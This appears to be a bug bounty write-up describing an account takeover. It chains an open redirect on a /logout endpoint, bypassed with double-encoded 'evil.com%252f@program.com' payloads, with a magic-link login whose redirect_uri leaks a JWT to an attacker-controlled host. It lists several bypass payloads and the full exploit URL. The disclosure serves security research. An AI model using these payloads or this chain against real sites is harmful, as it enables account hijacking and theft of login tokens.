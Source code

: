# Account Takeover Through Open Redirect

## How:

The program had an endpoint that was open to redirection vulnerability. By compining this vulnerability with an authentication functionality I was able to takeover the user
account.

## Open Redirection Vulnerability:

### Original Request

![alt text](original_redirect.png)

### Steps

- The application had an endpoint like this <span style="color:red"> ***/logout*** </span> that takes a <span style="color:red">***GET***</span> parameter called <span style="color:red">***r***</span>.
- The parameter <span style="color:red">***r***</span> takes an endpoint to be redirected to like this <span style="color:red">***/logout?r=/dashboard***</span>.
- So I tried to to put a valid host to see what it does like this <span style="color:red">***logout?r=https://program.com/***</span>.
- The application redirected me so, I new that I can play with it to see what else I can get.
- I tried to set the host name to another domain like <span style="color:red">***r=https://evil.com/***</span> and the application responded with <span style="color:red">***invalid redirect uri***</span>.
- Knowing this I thought of listing some payloads to try out:<br>
  <span style="color:red">***r=https://evil.com/program.com***</span><br>
  <span style="color:red">***r=https://program.com.evil.com***</span><br>
  <span style="color:red">***r=https://program.com@evil.com***</span><br>
  <span style="color:red">***r=https://evil.com@program.com***</span><br>
  
- The last one was the road to success from this list. However, it's still no redirection because the application will always redirect to itself.

- So at first why we tried these payloads?
  - When I try to find an open redirection I try first to know what url format is allowed or understandable by browsers. So, the meaning of <span style="color:red">***https://john@program.com***</span> is that you are trying to access <span style="color:red">***program.com***</span> as username <span style="color:red">***john***</span>. You can try this on firefox or chrome. 
  - So, by knowing this I was thinking what if the developer is using a regex that validates this format and when someone tries to change the value of <span style="color:red">***r***</span> to <span style="color:red">***https://evil.com@program.com***</span> he validetes it as a valid value because he know that it's the samething. The user will be redirected to program.com at the end too.
  - Another question comes to my head. What is the set of characters allowed before <span style="color:red">***@***</span> I tried to test it on the browser to see what is allowed. And, I have found that the browser when I but an ecnoded value like this <span style="color:red">***john%2f***</span> as username it validtes it and sees it as a valid value. You can try it <span style="color:red">***john%2f@google.com***</span>.
  - I tried to set <span style="color:red">***r***</span> to <span style="color:red">***https://evil.com%252f@program.com/***</span> and sent the request. The response successfully redirected me to <span style="color:red">***https://evil.com/@program.com/***</span>
  - So, let's break the payload.
    - The application validates this <span style="color:red">***john@program.com***</span> as a valid format.
    - So I tried to inject <span style="color:red">***/***</span> in the payload but doubled encoded like this <span style="color:red">***https://evil.com%252f@program.com/***</span>.
    - It's double encoded because If I encoded one time it will reach the web server decoded one time.
    - The payload reaches the code at the other end like this <span style="color:red">***https://evil.com%2f@program.com/***</span>.
    - Then the response return the redirection like this <span style="color:red">***https://evil.com/@program.com***</span>.
    - As you can see the browser will treat <span style="color:red">***/@program.com***</span> as a path to <span style="color:red">***https://evil.com***</span> and the redirection successfully happenes to <span style="color:red">**evil.com**</span>.
- Another important thing is that the <span style="color:red">***/logout***</span> endpoint sends any get parameter with the new redirection like this <span style="color:red">**/logout?r=https://evil.com%252f@program.com&heap=heap**</span> the redirection will be like this <span style="color:red">**https://evil.com/@program.com/?r=https://evil.com%252f@program.com&heap=heap**</span>.

### Exploited Request

![alt text](exploited_request.png)

## Exploiting The Login Functionality.

### Original Request

![alt text](magic_link_original_request.png)

### Steps

- The applicaiton has a functionality to send you a magic link to login with it. This endpoint takes an <span style="color:red">***email***</span> and <span style="color:red">***redirect_uri***</span> parameters. So, after trying to find a vulnerability with the email I tried to find what I can do with the <span style="color:red">***redirect_uri***</span>.
- The <span style="color:red">***redirect_uri***</span> takes a url and the applicaion appends a <span style="color:red">**JWT**</span> token to it as a GET parameter and sends it to the user.
- So, I tried to play with the hostname of this url to try and find an open redirection but with no clue.
- But, what if can edit the path of the url like this <span style="color:red">**https://program.com/anypath/anypath**</span> I tried it and sent the request and I looked at my mail I found that the magic link is like this <span style="color:red">**https://program.com/anypath/anypath?jwt=SOME_VALUE**</span>.
- Okay great, can I compine the this with the open redirection I have found before?. I set the <span style="color:red">**redirect_uri**</span> to <span style="color:red">**https://program.com/logout?r=https://evil.com%2525%2532%2566@program.com**</span>.
- And the magic link sent was like this <span style="color:red">**https://program.com/logout?r=https://evil.com%252f@program.com&jwt=SOME_VALUE**</span>.
- Clicking the link I was redirected to <span style="color:red">**https://evil.com/?https://evil.com%252f@program.com&jwt=SOME_VALUE**</span>.
- By this, I was able to get the jwt as an attacker and using the jwt I was able to login.
- So the same scenario is done if you want to target another user. You need an email and after collecting the jwt you can use it to login to the user's account.

### Exploited Request

![alt text](magic_link_exploited_request.png)

### My Info

#### Yeswehack  : <a href="https://yeswehack.com/hunters/mekky">https://yeswehack.com/hunters/mekky</a>

#### Intigriti  : <a href="https://app.intigriti.com/researcher/profile/mekky">https://app.intigriti.com/researcher/profile/mekky</a>

#### Linkedin   : <a href="https://www.linkedin.com/in/muhammed-mekkawy-1504821b2/">https://www.linkedin.com/in/muhammed-mekkawy-1504821b2/</a>

#### Twitter    : <a href="https://twitter.com/Mekky49295157">https://twitter.com/Mekky49295157</a>

